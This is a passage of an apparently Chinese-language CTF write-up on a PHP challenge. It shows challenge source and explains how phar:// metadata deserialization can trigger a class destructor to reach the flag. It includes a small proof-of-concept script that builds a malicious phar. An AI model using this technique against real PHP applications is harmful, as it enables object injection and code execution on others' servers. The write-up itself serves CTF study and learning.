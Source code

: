 ```
        die(file_get_contents($path . "/avatar.gif"));
    }

    $mode = $_GET["m"];
    if ($mode == "upload")
        upload(check_session());
    else if ($mode == "show")
        show(check_session());
    else
        highlight_file(__FILE__); 
```

首先从代码里可以很清楚的看明白flag的获取方式。

1、flag在admin类里，如果能够反序列化就能触发析构函数获取flag。
2、`check_session`从cookie中读取了data，但是却经过了`hash_hmac`，这是二进制层面的对比，完全没办法绕过。

所以第一个难关就是怎么构造一个反序列化。

**这里是个0day...网上搜不到任何相关信息**

**php在解析phar对象的时候会反序列化metadata**

在[https://rdot.org/forum/showthread.php?t=4379](https://rdot.org/forum/showthread.php?t=4379)提到了一段测试代码

```
<?php

if(count($argv) > 1) {
    @readfile("phar://./deser.phar");
    exit;
}

class Hui {
    function __destruct() {
        echo "PWN\n";
    }
}

@unlink('deser.phar');
try {
    $p = new Phar(dirname(__FILE__) . '/deser.phar', 0);
    $p['file.txt'] = 'test';
    $p->setMetadata(new Hui());
    $p->setStub('<?php __HALT_COMPILER(); ?>');
} catch (Exception $e) {
    echo 'Could not create and/or modify phar:', $e;
}

?>
```

从phar.c的底层代码我们可以看到这部分操作


  [1]: http://static.zybuluo.com/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: http://static.zybuluo.com/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png
